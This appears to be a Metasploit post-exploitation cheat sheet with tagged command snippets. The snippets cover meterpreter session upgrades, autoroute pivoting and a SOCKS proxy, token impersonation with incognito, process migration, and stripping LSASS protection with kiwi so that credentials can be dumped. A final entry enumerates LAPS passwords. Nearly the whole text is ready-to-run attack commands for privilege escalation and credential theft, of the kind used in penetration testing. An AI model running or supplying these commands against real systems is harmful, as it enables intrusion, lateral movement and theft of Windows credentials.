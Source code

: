 # MSF

% metasploit

## upgrade session to meterpreter
#plateform/linux #target/remote #cat/ATTACK/CONNECT  
```
sessions -u <session_id>
```

## show session list
#plateform/linux #target/remote #cat/ATTACK/CONNECT
```
sessions -l
```

## print route table
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
```
route print
```

## add pivot (autoroute)
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
exemple : 
use multi/manage/autoroute
set session 1
exploit
```
use multi/manage/autoroute
```

## add socks proxy (autoroute first)
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 

exemple : 
use multi/manage/autoroute
set session 1
exploit
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
exploit -j

```
use auxiliary/server/socks_proxy
```

## load incognito 
#plateform/linux #target/local #cat/PRIVESC  
```
load incognito
```

## incognito impersonate token
#plateform/linux #target/local #cat/PRIVESC  
```
impersonate_token <domain>\\<user>
```
## create process
#plateform/linux #target/local #cat/UTILS 
```
execute -H -f <process|notepad>
```

## migrate with name
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
migrate -N <process_name|notepad.exe>
```

##  PPL remove
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
load kiwi
kiwi_cmd "!processprotect /process:lsass.exe /remove"
creds_all
```

## enum LAPS
#plateform/linux #target/local #cat/ATTACK
```
use post/windows/gather/credentials/enum_laps
```

